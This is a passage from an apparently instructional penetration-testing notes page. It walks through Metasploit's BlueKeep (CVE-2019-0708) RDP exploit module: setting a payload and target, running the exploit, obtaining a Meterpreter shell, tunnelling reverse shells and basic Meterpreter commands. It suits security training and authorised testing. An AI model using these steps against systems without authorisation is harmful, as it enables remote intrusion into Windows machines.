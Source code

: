 7. Search for payload, read information about it, and set the payload

Alternatively, use the default payload selected

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > search payloads
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set payload 0 # eg. payload index 0
```

8. View the targets and select the relevant one

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target ...
```

9. Run exploit

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

10. Gain Meterpreter

```bash
meterpreter > pwd
meterpreter > ls 
meterpreter > shell
...
```

### Other useful commands

1. `set ReverseListenerBindAddress`&#x20;

* With this option, we can specify the address to which we want the reverse shell connection to be tunneled through

Eg.&#x20;

```sh
# configure reverse shell listener on localhost address 127.0.0.1
set ReverseListenerBindAddress 127.0.0.1
```

This can be useful when we tunnel an exploit via a jump/intermediary server listening on _127.0.0.1_.&#x20;

### Meterpreter

#### Useful commands:

1. `help`

* Displays the help menu

2. `background`

* Sends the current Meterpreter session into the background, and returns to the _msf_ prompt
* Use the `session -i` command to get back to the Meterpreter session
